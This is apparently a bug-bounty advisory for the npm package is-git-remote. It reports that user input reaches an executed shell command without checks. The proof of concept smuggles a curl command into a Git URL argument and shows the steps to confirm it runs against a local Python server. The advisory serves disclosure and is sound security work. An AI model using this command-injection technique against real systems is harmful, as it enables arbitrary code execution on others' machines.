 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
const isGitRemote = require("is-git-remote");
isGitRemote.default(
  'https://github.com/Mik317/PyScan.git;curl "http://localhost/RCE"'
);
```

2. Run a `py` server in order to verify the `cUrl` command: `python3 -m http.server 80`
3. Execute the following commands in another terminal:

```bash
npm i is-git-remote # Install affected module
git init # Avoid problems with the file validation
node poc.js #  Run the PoC
```

4. The `cUrl` command will be executed ... and the `py` server will receive a request to the `http://localhost/RCE` address
